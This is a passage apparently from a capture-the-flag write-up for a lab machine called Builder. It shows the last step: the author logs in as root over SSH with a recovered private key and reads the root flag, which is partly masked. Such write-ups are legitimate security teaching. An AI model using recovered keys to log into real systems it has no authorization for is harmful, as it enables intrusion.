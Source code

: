 ### SSH

Regardless of how I get it, with the recovered key (and permissions set
to 600), I can SSH as root into Builder:



    oxdf@hacky$ vim ~/keys/builder-root
    oxdf@hacky$ chmod 600 ~/keys/builder-root
    oxdf@hacky$ ssh -i ~/keys/builder-root root@10.10.11.10
    Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-94-generic x86_64)
    ...[snip]...
    root@builder:~#



And get `root.txt`:



    root@builder:~# cat root.txt
    a0957a94************************



\###






